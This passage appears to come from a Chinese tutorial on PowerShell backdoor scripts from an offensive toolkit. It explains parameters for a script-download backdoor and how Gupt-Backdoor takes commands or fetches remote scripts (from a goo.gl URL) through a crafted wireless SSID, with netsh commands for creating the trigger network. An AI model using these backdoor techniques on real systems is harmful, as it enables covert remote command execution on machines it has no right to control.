 具体参数的意思：



```
PayloadURL 指定我们脚本下载的地址
Arguments 指定执行的函数名
Time 参数可以设定脚本执行的时间（例如 -Time 23:21）
CheckURL 参数会检测我们一个指定的URL内容是否存在StopString给出的字符串，如果发现了就停止执行
```

Gupt-Backdoor

Gupt-Backdoor这个脚本可以帮助我们通过无线SSID反弹后门和执行命令。 

执行方式：

```
PS &gt;Gupt-Backdoor -MagicString test -Verbose
```

这里解释一下MagicString这个参数： 

MagicString开头的4个字符是用来识别我们建立的WIFI SSID的。例如，这里是test，Gupt后门会去自动匹配我们WIFI中SSID以test开头的。而MagicString这个参数从第五个字符开始就决定了我们是执行命令或是下载脚本。 

需要注意的是：

如果它的第五个字符是c就代表执行命令。 

例如：-MagicString testcwhoami 

就会匹配WIFI SSID为test的，并执行命令whoami

如果它的第五个字符是u的话就代表下载脚本。 

例如：-MagicString testuXXXX 

就会匹配WIFI SSID为test的，并默认下载http://goo.gl/XXXX 

（其中http://goo.gl可在脚本的$PayloadURL参数中修改）

还可以用Arguments参数来指定下载脚本 

例如： 

PS &gt;Gupt-Backdoor -MagicString test -Argument Get-Information -Verbose 

就可以下载Get-Information的脚本了

补充 

Windows下创建一个WIFI：



```
cmd
netsh wlan set hostednetwork mode=allow
netsh wlan set hostednetwork ssid=test key=1234567890
netsh wlan start hostednetwork
```

Add-ScrnSaveBackdoor
